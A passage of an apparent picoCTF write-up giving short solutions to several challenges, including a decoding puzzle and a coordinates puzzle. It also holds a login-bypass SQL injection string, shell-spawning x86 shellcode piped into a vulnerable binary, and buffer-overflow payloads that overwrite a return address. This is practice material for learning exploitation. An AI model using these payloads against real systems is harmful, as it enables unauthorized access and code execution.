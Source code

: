 Then I looked at the output and thought, “Um, seems familiar” and it was due to it being decimal so I decoded the decimal numbers to ascii text and got this, the flag - using this website:

Flag is: picoCTF{rrrocknrn0113r}

### Irish Name Repo 
Enter ‘ OR 1=1;-- for both username and password


### Mr World-Wide
Googled all the coordinates and found their city
The first letters of the cities spell out to KODIAK_ALASKA
picoCTF{(35.028309, 135.753082)(46.469391, 30.740883)(39.758949, -84.191605)(41.015137, 28.979530)(24.466667, 54.366669)(3.140853, 101.693207)_(9.005401, 38.763611)(-3.989038, -79.203560)(52.377956, 4.897070)(41.085651, -73.858467)(57.790001, -152.407227)(31.205753, 29.924526)}
= Kyoto Odesa Dayton Istanbul (Abu Dhabi) (Kuala Lumpur)_ (Addis Adaba) (Loja) Amsterdam (Sleepy Hollow) Kodiak Alexandria

### handy-shellcode 
Googled for x86-64 shellcode cat flag.txt
Run this command:
(python -c "print '\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"; cat) | ./vuln

Those weird numbers are assembly instructions converted into a string for you to run. Usually, we don’t write shellcode ourselves and find existing shellcode on Google. But in more advanced problems, you’ll be required to write your own shellcode.
This pipes the shellcode into the vulnerable binary, and doesn’t exit out of the program.


### 1_wanna_b3_a_r0ck5tar
Convert the text to Rockstar programming language
Use transpiler https://github.com/yanorestes/rockstar-py to convert it to python
Notice all the numbers seem like they can be converted to characters
they do! == bonjovi



### OverFlow 0 

Literally just overflow the buffer by entering a ton of characters.
They have a segmentation fault handler that just prints the flag as soon as there is a segfault.

picoCTF{3asY_P3a5y4a888b8e}


### OverFlow 1 
Examine the source code, in order to print the flag, we just have to change the return address in the vuln() function so that it executes the flag() function.
Find the address of the flag function in memory in gdb with the command `x flag`. 
Use python to create a payload to test on gdb:
    `python -c "print 64*'A'+'BBBBCCCCDDDDEEEE'" > payload`
I print 64 A’s because it’s the size of the buffer we need to overflow, then I add some padding with ‘BBBBCC…’ to see exactly where the return address should be. 
In GDB, I examine the stack and see that ‘45454545’ is where the return address should be. This hex corresponds to EEEE in ascii, so I change the payload and add the return address of flag that I found in GDB earlier:
    `python -c "print 64*'A'+'BBBBCCCCDDDDEEEE'+'\xe6\x85\x04\x08'" > payload`
It works! Now use the final exploit on the picoctf shell server:
    `python -c "print 64*'A'+'BBBBCCCCDDDDEEEE'+'\xe6\x85\x04\x08'"  | vuln`
